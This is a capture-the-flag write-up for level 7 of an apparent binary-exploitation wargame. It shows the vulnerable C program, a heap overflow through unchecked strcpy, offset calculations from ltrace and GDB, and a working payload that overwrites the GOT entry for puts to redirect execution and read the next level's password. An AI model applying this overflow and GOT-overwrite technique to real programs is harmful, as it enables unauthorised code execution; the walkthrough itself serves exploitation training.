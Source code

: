 # Level 7

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <string.h>

struct s {
    int id;
    void *ptr;
};

char c[80] = "";

void m()
{
    printf("%s - %d\n", c, time(0));
}

int main(int argc, char **argv)
{
    struct s *buffer1;
    struct s *buffer2;

    buffer1 = malloc(8);
    buffer1->id = 1;
    buffer1->ptr = malloc(8);

    buffer2 = malloc(8);
    buffer2->id = 2;
    buffer2->ptr = malloc(8);

    strcpy(buffer1->ptr, argv[1]);
    strcpy(buffer2->ptr, argv[2]);

    fgets(c, 68, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
    return 0;
}
```

Let's focus on the `main` function. It reads input from the command line then copies it to our buffer using `strcpy`, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes copied.

Since we're interacting with the heap here we won't have to worry about the stack layout, in this case we'll have to overflow the value pointed by `buffer1->ptr` until we reach `&buffer2->ptr` and write the address of the GOT entry of `puts` to it. Then, thanks to the second `strcpy`, we'll be able to overwrite the value that the GOT entry address for `puts` points to with the address of the `m` function.

Yet again this exercise utilizes PLT and GOT, so please refer to the [level5 walkthrough](../level5/walkthrough.md) for a detailed explanation of how it works.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
$ ltrace ./level7 arg1 arg2
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8) = 0x0804a008  #buffer1 = malloc(8);
malloc(8) = 0x0804a018  #buffer1->ptr = malloc(8);
malloc(8) = 0x0804a028  #buffer2 = malloc(8);
malloc(8) = 0x0804a038  #buffer2->ptr = malloc(8);
strcpy(0x0804a018, "arg1") = 0x0804a018
strcpy(0x0804a038, "arg2") = 0x0804a038
[...]
```

As mentioned before we want to overflow the value pointed by `buffer1->ptr` until we reach `&buffer2->ptr`. So let's calculate the offset needed:
```
buffer1->ptr = 0x0804a018
buffer2 = 0x0804a028
0x0804a028 - 0x0804a018 = 16 bytes

0x0804a028 + 4 bytes (because buffer->id is an int) = 0x0804a02c
&buffer2->ptr = 0x0804a02c

16 bytes + 4 bytes = 20 bytes of padding
```

Using GDB we find that the address of the `m` function is `0x080484f4` and that the address of the GOT entry for `puts` is `0x8049928`.

We can then craft our payload:
```
arg1 = padding + address of the GOT entry for puts
arg2 = address of m

arg1 = "A"*20 + "\x08\x04\x99\x28"
arg2 = "\x08\x04\x84\xf4"
```

Let's run our payload:
```bash
level7@RainFall:~$ ./level7 `python -c 'print("A"*20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1702752190
```

We are now level8! Let's move on to the next level.
